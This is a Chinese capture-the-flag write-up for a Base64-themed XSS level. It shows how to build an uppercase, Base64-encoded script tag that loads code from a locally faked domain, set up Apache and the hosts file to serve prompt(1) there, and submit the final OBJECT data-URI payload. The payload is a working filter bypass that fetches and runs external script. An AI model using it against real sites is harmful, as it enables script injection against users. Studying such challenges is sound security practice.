 先构造 XSS 代码，其实就是前面提到的第二个 JS 代码：

```
  <SCRIPT /
SRC  
= 
  
HTTPS:E.XP>
</SCRIPT
 >
```

这个 JS 代码在 Base64 编码后不含 `a-z` 和 `+` ，满足要求：

`ICA8U0NSSVBUIC8KU1JDICAKPSAKICAKSFRUUFM6RS5YUD4KPC9TQ1JJUFQKID4=`

那么现在要做的，就是把 JS 代码中构造的 URL `HTTPS:E.XP` 变成可以真正访问的域名。

在 HTTP 中，这个域名地址等价于 `https://e.xp` 。

[Apache Httpd](https://httpd.apache.org/) 默认情况下是通过 `http://127.0.0.1:80` 访问主页的，要使得它可以访问 `https://e.xp` ，修改两处即可：

- 修改 `%ApacheHttpd%/conf/extra/httpd-vhosts.conf` 文件，修改 `<VirtualHost>` 中的服务名为 `ServerName E.XP:80`
- 修改 `C:\Windows\System32\drivers\etc\hosts` 文件，增加一行 `127.0.0.1 E.XP` （相当于伪造 DNS）

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2014%20-%20Base64/imgs/08.png)

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2014%20-%20Base64/imgs/09.png)

完成这两处修改，启动 Apache Httpd 服务，就可以在本地访问 [https://e.xp](https://e.xp) 了。

> 注：虽然没有搭建 https 服务器，但这种情况下，https 的流量都默认会转发回 http，只是会提示不安全而已。有时间的同学可以在本地对自己的 http 服务做自签名认证，就可以伪造 https 服务器了。

但是这样改仅仅能访问主页而已，主页是不会触发 `prompt(1)` 的，为此还需要改两处地方：

- 在 `%ApacheHttpd%/htdocs` 目录下（即WEB目录）新建文件 `index.js` ，内容为 `prompt(1)`
- 修改 `%ApacheHttpd%/conf/httpd.conf` 文件，在 `DirectoryIndex` 后添加 `index.js`

这样只要访问 [https://e.xp](https://e.xp) 就会自动跳到 index.js 页面，然后触发 `prompt(1)`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2014%20-%20Base64/imgs/10.png)

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2014%20-%20Base64/imgs/11.png)


------------

至此，搭建本地 XSS 服务器完成，访问 [https://e.xp](https://e.xp) 就可以看到效果，跟使用 XSS 平台一样：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2014%20-%20Base64/imgs/12.png)

利用本地域名 [https://e.xp](https://e.xp) 的 Base64 编码构造 payload 如下，并在 FireFox 浏览器提交，完成挑战：

```html
"><OBJECT/DATA="data:TEXT/HTML;BASE64,ICA8U0NSSVBUIC8KU1JDICAKPSAKICAKSFRUUFM6RS5YUD4KPC9TQ1JJUFQKID4=
```
